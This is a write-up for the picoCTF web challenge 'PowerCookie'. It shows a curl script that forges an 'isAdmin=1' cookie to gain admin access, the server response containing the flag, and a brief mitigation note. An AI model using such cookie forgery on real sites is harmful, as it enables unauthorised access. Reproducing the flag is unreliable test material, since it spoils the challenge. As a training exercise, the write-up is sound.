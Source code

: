## CTFi: PICO Web Fall25 
Challenge: PowerCookie

Category: web

Points:

Difficulty:   Intermediate 

## Instructions

Can you get the flag?
Go to this website and see what you can discover.
Hint
Qb lbh xabj ubj gb zbqvsl pbbxvrf?
## Solution
* Imagine it has something to do with a cookie.
* when on the website and contiune as guest a cookie pops up
* possibly curl copy the cooke and change admin to true
* it worked by changing the is admin value to 1
#!/bin/bash
curl 'http://saturn.picoctf.net:61196/check.php' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: isAdmin=1' \
  -H 'Referer: http://saturn.picoctf.net:61196/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36' \
  --insecure
* It returned 
<html>                                                                                                              
<body>                                                                                                              
                                                                                                                    
                                                                                                                    
                                                                                                                    
<p>picoCTF{gr4d3_A_c00k13_65fd1e1a}</p>                                                                             
                                                                                                                    

</body>
</html>


## Flag

picoCTF{gr4d3_A_c00k13_65fd1e1a} 

## Mitigation
A Mitigation for this would be to use dynamic certifcates for admin privleges instead of using a value in a cookie. This would allow for the attack to not just simply change a cookie value to get admin privleges.